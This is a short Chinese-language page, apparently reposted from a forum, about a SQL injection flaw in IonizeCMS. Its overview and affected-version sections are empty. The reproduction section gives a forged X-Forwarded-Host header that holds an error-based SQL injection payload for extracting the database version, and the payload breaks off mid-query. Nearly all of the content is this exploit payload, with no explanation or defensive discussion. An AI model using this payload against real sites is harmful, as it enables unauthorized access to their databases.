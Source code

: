 # IonizeCMS sql注入

> 原文：[https://www.zhihuifly.com/t/topic/2978](https://www.zhihuifly.com/t/topic/2978)

# IonizeCMS sql注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

伪造HTTP头注入 在抓包哇：

```
X-Forwarded-Host: 'and(select 1 from(select count(*),concat((select concat(0x5e5e5e,version(),0x5e5e5e) from informat 
```